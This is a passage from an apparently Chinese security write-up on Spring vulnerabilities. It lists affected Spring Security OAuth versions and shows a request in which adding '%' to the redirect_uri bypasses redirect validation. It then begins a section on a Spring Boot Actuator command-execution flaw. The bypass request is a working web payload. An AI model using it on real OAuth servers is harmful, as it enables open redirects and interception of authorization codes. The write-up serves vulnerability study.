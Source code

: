 ```


1.  `Spring  Security  OAuth  2.3 to 2.3.4`
2.  `Spring  Security  OAuth  2.2 to 2.2.3`
3.  `Spring  Security  OAuth  2.1 to 2.1.3`
4.  `Spring  Security  OAuth  2.0 to 2.0.16`


```

[https://medium.com/@riemannbernhardj/investigating-spring-security-oauth2-cve-2019-3778-and-cve-2019-11269-a-p-o-c-attack-44895f2a5e70](https://medium.com/@riemannbernhardj/investigating-spring-security-oauth2-cve-2019-3778-and-cve-2019-11269-a-p-o-c-attack-44895f2a5e70)

用户登录后，CLIENT APP执行的以下请求包含REDIRECT_URI参数。 只需添加一个百分号即可触发重定向，而不是通过RedirectMismatchException错误来绕过验证。

例如原始请求如下：

```


1.  `/auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://localhost:8086/login`


```

只需要修改为：

```


1.  `/auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://%localhost:8086/login`


```

这样就不会产生原本的认证错误，而且直接跳转到地址

```


1.  `Location: http://localhost:8086/login`


```

### [](#CNVD-2019-11630-Spring-Boot-Actuator命令执行漏洞 "CNVD-2019-11630 Spring Boot Actuator命令执行漏洞")CNVD-2019-11630 Spring Boot Actuator命令执行漏洞

[https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#)

这个漏洞并不像是单一的问题产生，更像是一个渗透入侵的过程。有很多值得在意的知识点
